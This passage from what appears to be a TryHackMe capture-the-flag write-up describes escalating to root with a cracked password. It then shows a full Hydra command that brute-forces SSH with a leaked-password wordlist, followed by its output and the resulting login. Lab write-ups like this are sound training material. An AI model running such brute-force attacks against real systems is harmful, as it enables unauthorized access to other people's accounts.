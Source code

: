 Note this says three password hashes because I used the same file that had Charlie's other hash in it. Interestingly not only did these break fairly quickly, they were **THE SAME PASSWORD**. Of course, I tried to SSH in as root but that didn't work, presumably SSH login as root with a password was disabled. Similarly, *sudo su* was disabled for *charlie*, so being in the sudoer group didn't help. But since we knew the root password, we could just do *su root* instead. Win. 

Next, I wanted to see just how easy it would be to bruteforce SSH for this box. The password was about 400000 entries into rockyou, so not that practical. I checked the other entries in */usr/share/seclists/Passwords* and the closest I found was the *Leaked-Databases/Ashley-Madison.txt* file; the password we needed was about 1500 lines in. Let's try *that* with Hydra:

{% highlight shell %}
root@kali:/opt/tryhackme/choc# hydra -l charlie -P /usr/share/seclists/Passwords/Leaked-Databases/Ashley-Madison.txt ssh://10.10.85.169
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-17 23:56:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 375853 login tries (l:1/p:375853), ~23491 tries per task
[DATA] attacking ssh://10.10.85.169:22/
[STATUS] 109.00 tries/min, 109 tries in 00:01h, 375747 to do in 57:28h, 16 active
[STATUS] 113.00 tries/min, 339 tries in 00:03h, 375517 to do in 55:24h, 16 active
[STATUS] 105.57 tries/min, 739 tries in 00:07h, 375117 to do in 59:14h, 16 active
[22][ssh] host: 10.10.85.169   login: charlie   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-18 00:09:41
root@kali:/opt/tryhackme/choc# ssh charlie@10.10.85.169
charlie@10.10.85.169s password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan 18 05:12:56 UTC 2021

  System load:  0.0               Processes:           594
  Usage of /:   43.6% of 8.79GB   Users logged in:     0
  Memory usage: 59%               IP address for eth0: 10.10.85.169
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.